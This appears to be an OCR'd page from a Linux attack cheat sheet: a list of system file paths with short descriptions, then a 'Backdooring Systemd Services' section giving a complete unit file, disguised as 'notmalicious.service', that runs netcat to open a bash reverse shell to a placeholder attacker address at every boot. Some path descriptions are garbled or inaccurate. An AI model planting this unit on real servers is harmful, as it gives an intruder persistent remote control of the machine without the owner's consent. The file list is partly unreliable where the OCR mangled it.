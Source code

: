 ```
/boot/vmlinuz : The Linux Kernel file.
/dev/had : Device file for the first IDE HDD (Hard Disk Drive) /dev/hdc : Device file for the IDE Cdrom, commonly
/dev/null : A pseudo device
/etc/bashrc : System defaults and aliases used by bash shell. /etc/crontab : Cron run commands on a predefined time Interval. /etc/exports : Information of the file system available on network. /etc/fstab : Information of Disk Drive and their mount point. /etc/group : Information of Security Group.
/etc/grub.conf : grub bootloader configuration file.
/etc/init.d : Service startup Script.
/etc/lilo.conf : lilo bootloader configuration file.
/etc/hosts : Information on IP's and corresponding hostnames. /etc/hosts.allow : Hosts allowed access to services on local host. /etc/host.deny : Hosts denied access to services on local host. /etc/inittab : INIT process and interactions at various run level. /etc/issue : Allows to edit the pre-login message. /etc/modules.conf : Configuration files for system modules. /etc/motd : Message Of The Day
/etc/mtab : Currently mounted blocks information.
/etc/passwd : System users with password hash redacted. /etc/printcap : Printer Information
/etc/profile : Bash shell defaults
/etc/profile.d : Application script, executed after login. /etc/rc.d : Information about run level specific script. /etc/rc.d/init.d : Run Level Initialisation Script. /etc/resolv.conf : Domain Name Servers (DNS) being used by System. /etc/securetty : Terminal List, where root login is possible. /etc/shadow : System users with password hash.
/etc/skel : Script that populates new user home directory. /etc/termcap : ASCII file defines the behavior of Terminal. /etc/X11 : Configuration files of X-window System.
/usr/bin : Normal user executable commands.
/usr/bin/X11 : Binaries of X windows System.
/usr/include : Contains include files used by ‘c‘ program. /usr/share : Shared directories of man files, info files, etc. /usr/lib : Library files required during program compilation. /usr/sbin : Commands for Super User, for System Administration. /proc/cpuinfo : CPU Information
/proc/filesystems : File-system information being used currently. /proc/interrupts : Information about the current interrupts. /proc/ioports : All Input/Output addresses used by devices. /proc/meminfo : Memory Usages Information.
/proc/modules : Currently used kernel module.
/proc/mount : Mounted File-system Information.
/proc/stat : Detailed Statistics of the current System. /proc/swaps : Swap File Information.
/version : Linux Version Information.
/var/log/auth* : Log of authorization login attempts. /var/log/lastlog : Log of last boot process.
```

## Backdooring Systemd Services:

Create the following service descriptor at ```/etc/systemd/system/notmalicious.service```:

```
[Unit]
Description=Not a backdoor into your critical server.
[Service]
Type=simple
ExecStart=/usr/bin/nc -e /bin/bash <ATTACKER_IP> <PORT> 2>/dev/null
[Install]
WantedBy=multi-user.target
```
